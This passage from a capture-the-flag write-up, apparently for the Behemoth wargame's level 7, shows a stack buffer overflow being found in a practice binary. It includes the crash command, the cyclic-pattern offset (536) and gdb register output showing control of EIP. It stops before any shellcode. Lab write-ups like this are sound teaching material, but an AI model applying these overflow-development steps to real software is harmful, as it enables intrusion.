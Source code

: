 On to the final level!

## Level 7

Unlike the previous binaries, behemoth7 takes its user input in the form of an argument. Passing it a really long string causes it to crash: 

```
behemoth7@melinda:~$ /behemoth/behemoth7 `python -c 'print "A"*600'`
Segmentation fault
```

Let's find EIP's offset. We'll use a 600 byte cyclic pattern and crash it in gdb and run the value of EIP in pattern_offset.rb: 

```
root@kali ~/behemoth
# pattern_offset.rb 0x39724138
[*] Exact match at offset 536
```

EIP is at offset 536. Let's go ahead and crash it in gdb again. This time we'll pass it  536 bytes of junk, a dummy value for the saved return pointer, and another 100 bytes of junk to see what the registers and the stack look like at the time of crash

```
gdb-peda$ r `python -c 'print "A"*536 + "BBBB" + "C"*100'`

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xb7fbdff4 --> 0x160d7c 
ECX: 0x0 
EDX: 0x281 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff140 ('C' <repeats 100 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff140 ('C' <repeats 100 times>)
0004| 0xbffff144 ('C' <repeats 96 times>)
0008| 0xbffff148 ('C' <repeats 92 times>)
0012| 0xbffff14c ('C' <repeats 88 times>)
0016| 0xbffff150 ('C' <repeats 84 times>)
0020| 0xbffff154 ('C' <repeats 80 times>)
0024| 0xbffff158 ('C' <repeats 76 times>)
0028| 0xbffff15c ('C' <repeats 72 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
